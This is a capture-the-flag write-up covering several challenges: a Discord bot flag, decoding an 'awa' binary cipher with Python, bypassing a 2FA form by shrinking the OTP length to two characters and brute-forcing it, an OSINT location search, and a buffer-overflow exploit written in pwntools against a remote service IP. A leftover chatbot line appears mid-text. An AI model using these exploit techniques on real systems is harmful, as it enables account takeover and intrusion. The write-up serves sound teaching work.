








## Challenge: Sanity Check

### Description

This Discord challenge involves finding a hidden flag through interaction with a bot in a private server channel. The challenge name suggests verifying what’s real—a "sanity check"—which ties into evaluating the usefulness of various commands.

### Process

While browsing the available Discord channels, one stands out: a hidden one named `#lame-bot`. Despite being private, it is possible to send messages in it. Reviewing the channel's message history suggests this is the correct location for bot interaction.



By typing `/` in the chat, you can explore the available commands under the **Hack The Box** command group. Among them:

- `/hint` offers vague or misleading guidance.
- `/random`, on the other hand, returns an unexpected result.

Using `/random` in `#lame-bot` triggers a response that reveals the flag.




## Challenge: Echoes of AWA

### Description

This challenge involves decoding a message that's been encoded using a custom mapping of binary bits to repeated patterns of the word "awa". The process disguises a simple binary encoding through misleading token definitions and an additional layer of Caesar-style shifting.

### Observations

The provided `awa_map` includes mappings for '2' and '3', but only '0' (`awa`) and '1' (`awawawa`) are valid binary digits. The extra entries are distractions.

The message undergoes three transformations before encryption:
1. Convert each character to 8-bit binary.
2. Reverse the binary string.
3. Encode it using the pattern mapping.

### Decryption Steps

1. Split the encoded string by spaces to get individual tokens.
2. Convert each token from pattern to reversed binary:
   - `awa` → `0`
   - `awawawa` → `1`
3. Reverse the binary string again.
4. Convert binary to an integer, then apply a Caesar cipher shift (modulo 128).
5. Convert the result to a character.
6. Repeat for all tokens and try all shift values (0–127) to find a valid flag.

### Decryption Code

The provided Python script handles decoding. It also includes brute-force logic to test all possible shift values and identify the one that yields a flag-like string.

```python
awa_map_rev = {
    'awa': '0',
    'awawawa': '1'
}

def awa_to_binary(awa_token):
    bits = []
    i = 0
    while i < len(awa_token):
        if awa_token[i:i+7] == 'awawawa':
            bits.append('1')
            i += 7
        elif awa_token[i:i+3] == 'awa':
            bits.append('0')
            i += 3
        else:
            raise ValueError(f"Invalid pattern at position {i}: {awa_token[i:]}")
    return ''.join(bits)

def decode_awa_message(awa_message, shift_value):
    tokens = awa_message.strip().split()
    chars = []
    for token in tokens:
        reversed_binary = awa_to_binary(token)
        binary = reversed_binary[::-1]
        char_code = int(binary, 2)
        original_code = (char_code - shift_value) % 128
        chars.append(chr(original_code))
    return ''.join(chars)
````

Running the script yields the following output:




## Challenge: Lousy 2FA

### Description

This web challenge centers on bypassing a 2FA OTP (One-Time Password) verification mechanism through an insecure implementation. Initial exploration of the website reveals minimal information, and the visible endpoints appear unhelpful.



### Exploration

Inspecting `robots.txt` exposes a disallowed path: `/forgot-password`. Visiting this endpoint presents a basic form to request an OTP via email.

The website also serves static assets, including client-side JavaScript. Reviewing the script reveals the implementation for the `/send-otp` POST request. Interestingly, a commented-out parameter named `length` is accepted along with the email in the request body.



### Exploit Steps

1. **Manipulate OTP Length**  
   By manually adding the `length` field in the request payload, it's possible to specify the desired OTP length.
   
   - Testing with `length = 0` or `1` returns an error.
   - With `length = 2`, the request succeeds.
   - This reveals the minimum accepted length is 2, dramatically reducing the brute-force space.

2. **Brute-force OTP**  
   Since the OTP is only two characters long (likely alphanumeric or numeric), brute-forcing becomes trivial.


When a correct OTP is submitted to `/verify-otp`, the flag is returned




Here’s a clean and focused Markdown writeup for the **King's Crossing** OSINT challenge, including a placeholder for an image:


## Challenge: King's Crossing

### Description

This is an OSINT (Open Source Intelligence) challenge where the objective is to identify the pin code of a location based on visual clues in an image. A hint provided in the challenge description—**"bad review"**—proved crucial to solving it.

### Analysis

The image showed:

- A textile showroom
- A bus with the label **"ksrtc"**, indicating it operates in **Karnataka State, India**

Using these details, a targeted search was conducted:

1. Searched **“textile shops in Karnataka”** on Google.
2. Filtered the results by **lowest reviews** to align with the “bad review” hint.
3. Manually compared storefront images with the challenge image.
4. Eventually matched the storefront to **Senthil Kumar Textiles**.


The store’s address listed the pin code as: 570004


Thus, the flag is:

```

HTB{570004}

```


## Challenge: TipTop

### Description

This is a binary exploitation challenge focused on leveraging a buffer overflow vulnerability to redirect execution flow and access a hidden function that reveals the flag.

### Initial Analysis

Running the binary prompts:

```

Tipi tipi top top. What color do you want?

1. Black
2. Blue
3. Green
4. White
5. Orange

```
If you decompile the binary in ghidra, you can find the option to select here is 4.



Upon selecting option **4**, the program asks:

```

What's the magic colour name?:

````

Reverse engineering with **Ghidra** reveals that this input is processed by the function:

```c
void magic_menu(void) {
    char local_48[64];
    printf("What's the magic colour name?: ");
    gets(local_48);  // ❗ Vulnerable to buffer overflow
}
````

A hidden function exists in the binary:

```c
void magiccolour(void) {
    char local_58[72];
    FILE *local_10 = fopen("flag.txt", "r");
    if (local_10 == NULL) {
        puts("No flag.txt found in the current directory.");
    } else {
        fgets(local_58, 0x40, local_10);
        printf("Flag: %s\n", local_58);
        fclose(local_10);
    }
}
```

This function is never called during normal execution and must be invoked manually via exploitation.

### Exploitation Plan

1. Overflow the 64-byte buffer in `magic_menu`.
2. Overwrite the return address with the address of magiccolour()
3. Return cleanly using a gadget (ret) to align the stack if needed

### Exploit Code

```python
from pwn import *

# Connect to remote
p = remote('4.240.104.200', 6974)

# Wait for color menu
p.recvuntil(b'5. Orange\n')
p.sendline(b'4')  # Choose option to reach gets()

# Build payload
# 64 bytes buffer + 8 bytes to overwrite saved RBP + RET gadget + address of magiccolour()
payload = b'A'*64 + p64(1) + p64(0x0000000000401016) + p64(0x401196)

# Send the payload
p.sendline(payload)

# Get flag	
p.interactive()

```
If we run this exploit, we can get the flag. 


